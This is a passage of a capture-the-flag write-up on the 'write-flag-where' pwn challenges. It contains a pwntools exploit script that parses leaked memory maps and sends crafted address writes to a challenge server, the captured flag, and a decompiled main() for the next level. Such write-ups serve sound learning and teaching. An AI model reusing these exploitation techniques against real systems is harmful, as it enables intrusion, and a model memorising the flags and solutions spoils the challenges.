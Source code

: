 ```python
from pwn import *
from time import sleep

context.binary = e = ELF("./chal")
libc = ELF("./libc.so.6")
gs="""
"""
def start():
	if args.LOCAL:
		p=e.process()
		if args.GDB:
			gdb.attach(p,gdbscript=gs)
			pause()
	elif args.REMOTE:
		p=remote(args.HOST,int(args.PORT))
	return p

p = start()
p.recvuntil(b"It's the challenge from before, but I've removed all the fluff\n")
e.address = int(p.recv(12),16)
p.recv()
log.info(f"{hex(e.address)}")
p.recvuntil(b"[vsyscall]")

p.sendline(f"{hex(e.sym.main+599)} 3".encode())
sleep(1)
p.sendline(f"{hex(e.sym.main+599+3)} 2".encode())
sleep(1)
p.sendline(f"{hex(e.address+0x20d5)} 50".encode())
sleep(1)
p.sendline(b"--")
p.interactive()
```

![image](https://github.com/robbert1978/robbert1978.github.io.old/assets/31349426/fa2d6989-6b4b-40cd-95e8-e877fe8d5027)

Flag: `CTF{impr355iv3_6ut_can_y0u_s01v3_cha113ng3_3?}`

## WRITE-FLAG-WHERE3
```
Your skills are considerable, I'm sure you'll agree
But this final level's toughness fills me with glee
No writes to my binary, this I require
For otherwise I will surely expire
```
Attachment: [wtw3.zip](https://github.com/robbert1978/robbert1978.github.io.old/files/11866401/wtw3.zip)

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf[9]; // [rsp+0h] [rbp-70h] BYREF
  unsigned int n; // [rsp+4Ch] [rbp-24h] OVERLAPPED BYREF
  unsigned __int64 n_4; // [rsp+50h] [rbp-20h] BYREF
  int v7; // [rsp+58h] [rbp-18h]
  int v8; // [rsp+5Ch] [rbp-14h]
  int v9; // [rsp+60h] [rbp-10h]
  int v10; // [rsp+64h] [rbp-Ch]
  int v11; // [rsp+68h] [rbp-8h]
  int fd; // [rsp+6Ch] [rbp-4h]

  fd = open("/proc/self/maps", 0, envp);
  read(fd, maps, 0x1000uLL);
  close(fd);
```